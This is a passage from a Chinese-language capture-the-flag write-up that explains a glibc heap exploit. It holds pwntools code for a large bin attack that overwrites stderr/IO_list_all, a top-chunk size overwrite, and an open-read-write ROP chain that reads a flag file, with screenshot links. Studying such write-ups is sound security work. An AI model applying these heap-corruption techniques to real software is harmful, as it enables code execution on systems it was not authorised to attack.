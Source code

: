    ```python
   
   
   # debug()
   # ========== large bin attack ==========
   # 泄漏堆地址 同时完成large bin attack 攻击 覆盖掉IO_list_all
   free(0)
   edit(1,p64(addr)*2 + p64(0) + p64(stderr_addr-0x20))
   add(0x4b0,15)    #15 将chunk0放入large bin 触发large bin attack
   show(1)
   run()
   p.recvuntil(b'Malloc Done\n')
   heap_addr = u64(p.recv(6).ljust(8,b'\x00'))-0x2760
   success("heap_addr==>"+hex(heap_addr))
   ```

   准备large bin attack：

   ![image-20240906182821940](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061828121.png)

   覆盖stderr：

   ![image-20240906182850691](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061828812.png)

2. 利用 large bin chunk在于top chunk相邻时，被释放后会与top chunk合并，在申请一个小一点的的chunk就会将`top chunk抬高` 这是就能覆盖到top chunk的size了：

   ```python
   # ========== 修改 top_chunk ==========
   add(0x4c0,15)   # 用来修改 top_chunk的size
   free(15)        # 提高 top_chunk 
   add(0x4b0,14)
   edit(15,b"\x00"*0x4b8 + p64(0x300))
   run()
   ```

   先申请一个大chunk：

   ![image-20240906183453521](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061834601.png)

   free掉后再申请一个小一点的chunk，这时top chunk会被抬高0x10，刚好可以被上次覆盖的chunk覆盖到，就能利用上次free的chunk修改掉top chunk的size：

   ![image-20240906183511036](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061835124.png)

   ![image-20240906183627921](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061836983.png)

3. 伪造IO_FILE、ORW：

   ```py
   
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x2C00
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   ```